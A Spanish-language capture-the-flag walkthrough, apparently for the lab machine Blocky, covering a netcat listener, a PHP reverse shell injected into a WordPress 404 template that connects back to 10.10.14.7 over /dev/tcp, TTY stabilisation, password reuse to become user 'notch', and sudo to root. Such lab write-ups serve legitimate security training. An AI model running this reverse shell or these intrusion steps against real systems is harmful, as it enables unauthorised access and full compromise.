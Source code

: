 Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url `http://10.10.10.37/?p=404.php` y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher `BlockyCore.class` funciona. Y ya podemos ver la flag.



## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
#Output
(ALL : ALL) ALL
```

Vemos que el usuario notch puede efectuar cualquier comando como qualquier usuario ;)

```bash
sudo su
whoami

root
```
